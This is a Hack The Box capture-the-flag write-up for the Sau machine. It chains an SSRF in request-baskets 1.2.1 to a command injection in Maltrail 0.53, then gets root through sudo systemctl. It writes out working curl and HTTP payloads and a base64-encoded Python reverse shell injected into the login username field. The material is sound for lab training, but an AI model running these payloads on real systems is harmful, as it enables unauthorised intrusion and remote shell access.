

# SAU

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | Server Side Request Forgery, SSRF, Command Injection, request-baskets v1.2.1, Maltrail v0.53 |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
nmap -p- -sS --open --min-rate 5000 -Pn -n -v -oN AllPorts 10.10.11.224
```

Result:

```markdown
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

TCP Full Scan: 

```bash
nmap -sCV -p22,55555 -Pn -n -v 10.10.11.224 -oN FullScan
```

Result: 

```markdown
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 18 Aug 2023 02:21:10 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 18 Aug 2023 02:20:44 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 18 Aug 2023 02:20:44 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=8/17%Time=64DED58E%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2018\x20Aug\x20
SF:2023\x2002:20:44\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2018\x20Aug\x20
SF:2023\x2002:20:44\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2018\x20Aug\x202023\x2002:21:10\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Initial Access

After the initial enumeration we only found 2 ports opened, Port `22` and `55555`, if we try to access the port `55555` via web, we will see the following website: 



Taking a look at the bottom we can see the version of the software: `Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1`

After doing some research I found that request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component `/api/baskets/{name}`. 

This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

Reference: 

[NVD - CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)

Checking more about the SSRF Vulnerability, I found a detailed explanation of the parameter vulnerable to the SSRF and PoC to exploit it. 

The following API’s forward_url parameter is vulnerable to SSRF：

1. /api/baskets/{name}
2. /baskets/{name}

We will use the following payload to post /api/baskets/{name} API：

```
{
  "forward_url": "http://127.0.0.1:80",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

Explanation: the `forward_url` parameter indicates to the server to redirect or make a request to that address, now, since we are indicating the loopback IP (127.0.0.1), the server will make a request to the internal port 80 (which is not exposed to us). However, in order to see the response, we need to set the parameter `proxy_response` to `true`

References: 

[request-baskets SSRF details - CodiMD](https://notes.sjtu.edu.cn/s/MUUhEymt7)

PoC: https://github.com/entr0pie/CVE-2023-27163

To send this request we can use either Burpsuite or Curl:

BurpSuite: 

```bash
POST /api/baskets/test HTTP/1.1
Host: 10.10.11.224:55555
Content-Type: application/json

{
  "forward_url": "http://127.0.0.1:80",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

Should look like this: 


Curl:

```bash
curl -s -X POST -H 'Content-Type: application/json' -d "{\"forward_url\": \"http://127.0.0.1:80\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}" http://10.10.11.224:55555/api/baskets/test2
```

Example: 


In both responses we should see a token, which is a confirmation that our basket was created. 

Now, to access the basket created, we just need to follow the url: http://10.10.11.224:55555/basket_name

For instance: http://10.10.11.224:55555/test2


As we can see, the server made a request to the loopback, which seems to be hosting an application identified as `Maltrail v0.53`, which was not exposed publicly according to our nmap scans. 

Now, checking the exploits associated with `Maltrail v0.53` I found that all versions before `0.54` are vulnerable to OS Command Injection. 
Reference: 

[OS Command Injection in maltrail](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

According to Hunter. dev the **`subprocess.check_output`** function in mailtrail/core/http.py contains a command injection vulnerability in the **`params.get("username")`**parameter.

An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.

# **Proof of Concept**

```
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

From the PoC we can see that the request points to the `/login` portal, hence, we need to create a new basket that redirects to the url [`http://127.0.0.1:80/login`](http://127.0.0.1:80/login) . 

Also, we can see that the vulnerable part if `'username=;`command-to-execute`'`, so, we need to inject our malicious payload in this part. 

Create Basktet with Curl:

```bash
curl -s -X POST -H 'Content-Type: application/json' -d "{\"forward_url\": \"http://127.0.0.1:80/login\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}" http://10.10.11.224:55555/api/baskets/test3
```

Now, let’s create a reverse shell based on python since the Maltrail is running over python (according to the exploit), but, to do this, we will encode the shell in base64. 

From https://www.revshells.com/ **select the option `Python3 shortest` and select base64 encode:**

```bash
cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOCIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigic2giKSc=
```

Now, we need to seen a curl request to the basket previously created (that points to the `/login` portal):

```bash
curl 'http://10.10.11.224:55555/test3' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMTQuOCIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigic2giKSc=|base64 -d |sh`'
```

Create the Netcat listener and execute the command: 


We should receive a shell. 

# Privilege Escalation

After validating the privileges for `puma` with `sudo -l` we can see that we can execute as `root` without providing the password, the command `/usr/bin/systemctl status trail.service`


According to GTFOBins, we can spawn a shell from the systemctl using `!sh` (option c)


Reference: https://gtfobins.github.io/gtfobins/systemctl/#sudo

Based on this information, after executing the command sudo, we need to type `!sh` in order to spawn a shell. 


Result: 


Success! We got a shell as root. 

[Owned Sau from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/551)